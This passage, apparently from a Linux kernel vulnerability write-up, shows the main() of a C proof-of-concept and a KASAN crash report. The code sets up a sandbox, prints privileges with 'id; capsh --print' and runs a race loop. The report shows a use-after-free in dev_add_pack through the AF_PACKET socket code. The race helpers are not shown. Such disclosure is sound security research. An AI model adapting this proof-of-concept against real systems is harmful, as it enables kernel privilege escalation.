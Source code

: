 int main(int argc, char *argv[]) 
{
    setup_sandbox();
    system("id; capsh --print");
    loop_race();    
    return 0;
}
``

## Crash report

```
[   73.703931] dev_remove_pack: ffff880067cee280 not found
[   73.717350] ==================================================================
[   73.726151] BUG: KASAN: use-after-free in dev_add_pack+0x1b1/0x1f0
[   73.729371] Write of size 8 at addr ffff880067d28870 by task poc/1175
[   73.732594] 
[   73.733605] CPU: 3 PID: 1175 Comm: poc Not tainted 4.14.0-rc1+ #29
[   73.737714] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.1-1ubuntu1 04/01/2014
[   73.746433] Call Trace:
[   73.747985]  dump_stack+0x6c/0x9c
[   73.749410]  ? dev_add_pack+0x1b1/0x1f0
[   73.751622]  print_address_description+0x73/0x290
[   73.753646]  ? dev_add_pack+0x1b1/0x1f0
[   73.757343]  kasan_report+0x22b/0x340
[   73.758839]  __asan_report_store8_noabort+0x17/0x20
[   73.760617]  dev_add_pack+0x1b1/0x1f0
[   73.761994]  register_prot_hook.part.52+0x90/0xa0
[   73.763675]  packet_create+0x5e3/0x8c0
[   73.765072]  __sock_create+0x1d0/0x440
[   73.766030]  SyS_socket+0xef/0x1b0
[   73.766891]  ? move_addr_to_kernel+0x60/0x60
[   73.769137]  ? exit_to_usermode_loop+0x118/0x150
[   73.771668]  entry_SYSCALL_64_fastpath+0x13/0x94
[   73.773754] RIP: 0033:0x44d8a7
[   73.775130] RSP: 002b:00007ffc4e642818 EFLAGS: 00000217 ORIG_RAX: 0000000000000029
[   73.780503] RAX: ffffffffffffffda RBX: 00000000004002f8 RCX: 000000000044d8a7
[   73.785654] RDX: 0000000000000011 RSI: 0000000000000003 RDI: 0000000000000011
[   73.790358] RBP: 00007ffc4e642840 R08: 00000000000000ca R09: 00007f4192e6e9d0
[   73.793544] R10: 0000000000000000 R11: 0000000000000217 R12: 000000000040b410
[   73.795999] R13: 000000000040b4a0 R14: 0000000000000000 R15: 0000000000000000
[   73.798567] 
[   73.799095] Allocated by task 1360:
[   73.800300]  save_stack_trace+0x16/0x20
[   73.802533]  save_stack+0x46/0xd0
[   73.803959]  kasan_kmalloc+0xad/0xe0
[   73.805833]  kmem_cache_alloc_trace+0xd7/0x190
[   73.808233]  packet_setsockopt+0x1d29/0x25c0
[   73.810226]  SyS_setsockopt+0x158/0x240
[   73.811957]  entry_SYSCALL_64_fastpath+0x13/0x94
[   73.814636] 
[   73.815367] Freed by task 1175:
[   73.816935]  save_stack_trace+0x16/0x20
[   73.821621]  save_stack+0x46/0xd0
[   73.825576]  kasan_slab_free+0x72/0xc0
[   73.827477]  kfree+0x91/0x190
[   73.828523]  packet_release+0x700/0xbd0
[   73.830162]  sock_release+0x8d/0x1d0
[   73.831612]  sock_close+0x16/0x20
[   73.832906]  __fput+0x276/0x6d0
[   73.834730]  ____fput+0x15/0x20
[   73.835998]  task_work_run+0x121/0x190
[   73.837564]  exit_to_usermode_loop+0x131/0x150
```